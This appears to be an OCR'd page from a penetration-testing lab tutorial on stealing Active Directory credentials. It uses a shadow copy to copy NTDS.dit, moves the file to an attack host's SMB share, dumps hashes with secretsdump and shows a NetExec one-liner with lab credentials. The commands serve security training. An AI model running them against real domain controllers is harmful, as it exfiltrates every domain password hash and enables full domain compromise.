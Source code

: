 This account has both Administrators and Domain Administrator rights which means we can do just about anything we want, including making a copy of the NTDS.dit file.

#### Creating shadow copy of C:
We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the `C:` drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on `C:` as that is the default location selected at install, but it is possible to change the location.
```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```
#### Copying NTDS.dit from the VSS
We can then copy the `NTDS.dit` file from the volume shadow copy of `C:` onto another location on the drive to prepare to move NTDS.dit to our attack host.
```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
**Note:** As was the case with `SAM`, the hashes stored in `NTDS.dit` are encrypted with a key stored in `SYSTEM`. In order to successfully extract the hashes, one must download both files.

#### Transferring NTDS.dit to attack host (SMB Share technique)
```shell
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

#### Extracting hashes from NTDS.dit
With a copy of `NTDS.dit` on our attack host, we can go ahead and dump the hashes. One way to do this is with Impacket's `secretsdump`:

```shell-session
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL

[*] Target system bootKey: 0x62649a98dea282e3c3df04cc5fe4c130
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 086ab260718494c3a503c47d430a92a4
[*] Reading and decrypting hashes from NTDS.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
```

### A faster method: Using NetExec to capture NTDS.dit (WOW)
```shell
netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil
```

